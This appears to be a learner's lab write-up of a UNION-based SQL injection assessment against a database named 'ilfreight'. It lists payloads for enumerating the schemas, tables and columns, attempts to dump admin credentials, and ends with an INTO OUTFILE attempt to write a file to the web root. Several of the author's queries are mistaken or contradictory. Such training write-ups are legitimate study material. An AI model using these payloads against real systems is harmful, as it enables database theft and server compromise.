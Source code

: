 # Skill Assessment

Here is the first successful injection results:

>cn' UNION select 1,2,3-- -
 
With the resulting output:

>Adam 	January 	1337$ 	5%
>James 	March 	1213$ 	8%

I then iterated through another UNION query to find out how many columns were in the table I am accessing:

>cn' UNION SELECT 1,2,3,4,5-- -
 
Once I determined there were four columns with the above injection, I used \@@version to determine the current version of the database being used:

>cn' UNION SELECT 1,\@@version,3,4,5-- -

This returned:

>10.3.22-MariaDB-1ubuntu1

Then I wanted to determine the current database name using the following query:

>cn' UNION SELECT 1,database(),3,4,5-- -

Which returned:

>ilfreight

Now that I knew the name of the database being used, I decided to determine what other databases were available with the following injection:

>cn' UNION select 1,schema_name,3,4,5 from INFORMATION_SCHEMA.SCHEMATA-- -
 
This returned the following:

>information_schema 	3 	4 	5
>mysql 	3 	4 	5
>performance_schema 	3 	4 	5
>ilfreight 	3 	4 	5
>backup 	3 	4 	5

From here I ruled out the default databases named information_schema, mysql, and performance_schema, and focused on the remaining databases named ilfreight and backup.

Now I decided to discover all the tables within the two databases of interest with the two following statements:
 
>cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4,5 from INFORMATION_SCHEMA.TABLES where table_schema='ilfreight'-- -
 
>cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4,5 from INFORMATION_SCHEMA.TABLES where table_schema='backup'-- -

>cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4,5 from INFORMATION_SCHEMA.TABLES where table_schema='backup'-- -

These queries had the following output respectively:

>payment 	ilfreight 	4 	5
>users 	ilfreight 	4 	5
>admin_bk 	backup 	4 	5
 
Now I determined that I would list all columns of the admin_bk and backup tables from the backup database:
 
>cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA,5 from INFORMATION_SCHEMA.COLUMNS where table_name='admin_bk'-- -

>cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA,5 from INFORMATION_SCHEMA.COLUMNS where table_name='backup'-- -
 
This generated the following output respectively:

>username 	admin_bk 	backup 	5
>password 	admin_bk 	backup 	5
 
>(no output)

Now I decided to dump data from a table in another database:

>c' UNION select 1, username, password, 4, 5 from username.backup-- -
 
>c' UNION select 1, username, password, 4, 5 from password.backup-- -

This returned that the targets did not exist. I decided to try again using admin_bk instead of backup:

>c' UNION select 1, username, password, 4, 5 from password.admin_bk-- -
 
Similar results. Clearly I have a problem with my database.table part of the query.

When I tried backup.username, this was still incorrect.

I then watched a bit of a youtube vid and tried to use the OUTPUT INTO function to write to the file proof.txt:

>cn' UNION SELECT 1, 'file written successfully!', 3, 4,5 INTO OUTFILE '/dashboard/var/www/html/proof.txt'-- -